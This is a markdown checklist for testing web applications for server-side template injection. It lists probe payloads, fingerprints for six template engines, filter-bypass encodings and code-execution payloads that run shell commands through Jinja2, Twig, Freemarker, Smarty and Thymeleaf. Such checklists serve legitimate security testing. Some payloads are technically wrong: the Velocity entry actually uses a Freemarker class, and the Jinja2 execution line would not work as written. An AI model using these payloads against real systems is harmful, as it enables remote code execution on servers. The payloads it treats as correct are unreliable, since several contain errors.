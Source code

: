 ```yaml
---
legal-banner: true
---
```


1. **Initial Information Gathering**
    - [ ] Identify and map all endpoints that accept user input for template rendering.
    - [ ] Review source code (if available) to understand template rendering mechanisms.
    - [ ] Check for user inputs in templates, URLs, headers, and request bodies.

2. **Basic SSTI Testing**
    - Test common SSTI payloads to identify template engine and injection points:
        - [ ] `{{7*7}}`
        - [ ] `${7*7}`
        - [ ] `<%= 7 * 7 %>`
        - [ ] `#{7*7}`
        - [ ] Try injecting payloads in different user inputs (e.g., form fields, query parameters).

3. **Detecting Template Engines**
    - Identify the template engine by using specific payloads for known engines:
        1. Jinja2 (Python):
            - [ ] `{{7*'7'}}`
            - [ ] `{{config.items()}}`
        2. Twig (PHP):
            - [ ] `{{7*7}}`
            - [ ] `{{_self.env.globals}}`
        3. Freemarker (Java):
            - [ ] `${7*7}`
            - [ ] `${"freemarker.template.utility.Execute"?new()}`
            - [ ] `<#assign ex = "freemarker.template.utility.Execute"?new()>`
        4. Velocity (Java):
            - [ ] `#set($x = 7 * 7)`
            - [ ] `$class.inspect("java.lang.Runtime").newInstance().exec("ls")`
        5. Smarty (PHP):
            - [ ] `{$smarty.version}`
            - [ ] `{if 7*7}`
        6. Thymeleaf (Java):
            - [ ] `${7*7}`
            - [ ] `th:text="${T(java.lang.Runtime).getRuntime().exec('ls')}"`

4. **Payloads**
    - Test payloads that can bypass filters and restrictions:
        - [ ] `{{7*'7'}}`
        - [ ] `${7*'7'}`
        - [ ] `<%= 7 * '7' %>`
    - [ ] Use concatenation to bypass filters: `{{7*('7')}}`, `${7*('7')}`
    - [ ] Inject payloads in nested contexts to test for complex injections.

5. **Exploiting SSTI**
    - Test for code execution:
        - [ ] Python (Jinja2): `{{config.from_object('os').popen('ls').read()}}`
        - [ ] PHP (Twig):  `{{_self.env.globals.system('ls')}}`
        - [ ] Java (Freemarker): `<#assign ex = "freemarker.template.utility.Execute"?new()> ${ex("ls")}`
        - [ ] Java (Velocity): `#set($x = "freemarker.template.utility.Execute") $x.new().exec("ls")`
        - [ ] PHP (Smarty): `{system('ls')}`
        - [ ] Java (Thymeleaf): `th:text="${T(java.lang.Runtime).getRuntime().exec('ls')}"`

6. **Bypassing Input Validation**
    - Test for input validation bypass using encoding and escaping:
        - [ ] URL encoding: `%7B%7B7*7%7D%7D`
        - [ ] HTML encoding: `&#123;&#123;7*7&#125;&#125;`
    - Use different template syntax to bypass filters:
        - [ ] `{{7*7}}`
        - [ ] `${7*7}`
        - [ ] `<%= 7 * 7 %>`

7. **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about SSTI vulnerabilities.
    - [ ] Look for error messages that disclose template engine details or execution errors.
    - [ ] Verify if application stack traces are exposed in responses.